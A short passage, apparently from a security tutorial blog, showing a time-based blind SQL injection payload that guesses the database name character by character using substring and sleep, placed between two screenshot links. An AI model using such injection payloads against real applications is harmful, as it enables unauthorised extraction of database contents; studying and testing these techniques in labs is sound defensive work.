 [![sqlinjectblindsleep7](/images/sqlinjectblindsleep7.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/sqlinjectblindsleep7.png)


```sql
iron man' AND substring(database(),3,1)='A' AND sleep(5)-- -
```

[![sqlinjectblindsleep8](/images/sqlinjectblindsleep8.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/sqlinjectblindsleep8.png)
